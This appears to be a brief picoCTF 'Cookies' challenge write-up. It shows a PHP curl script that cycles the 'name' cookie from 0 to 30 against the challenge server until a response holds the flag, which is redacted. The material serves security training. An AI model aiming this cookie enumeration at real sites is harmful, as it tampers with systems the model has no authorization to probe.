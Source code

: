 **Challenge**: [Cookies](https://play.picoctf.org/practice/challenge/173)
--------------
I use tool Burp Suite to view the response and cookie from my request. I know that the server has many cookies and I can modify them through param name.

<img src='./media/8340.png' alt='Cookie picture from Burp Suite' />

I try modifying value of name with positive values and have some different cookies. Therefore, I write a script to find the flag, this script have a loop from 0 to 30 (I also test name=30 and it does not give me a good result).
```php
<?php

$url = "http://mercury.picoctf.net:6418/check";

$curl = curl_init($url);
curl_setopt($curl, CURLOPT_URL, $url);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);

for($i=0; $i<=30; $i++){
	$headers = array("Cookie: name=$i",);
	curl_setopt($curl, CURLOPT_HTTPHEADER, $headers);

	$resp = curl_exec($curl);
	if(str_contains($resp, 'picoCTF{')){
		var_dump($resp);
	}
}


curl_close($curl);



?>


```
The flag is contained in the result when you excute it.
The flag is: picoCTF{***********}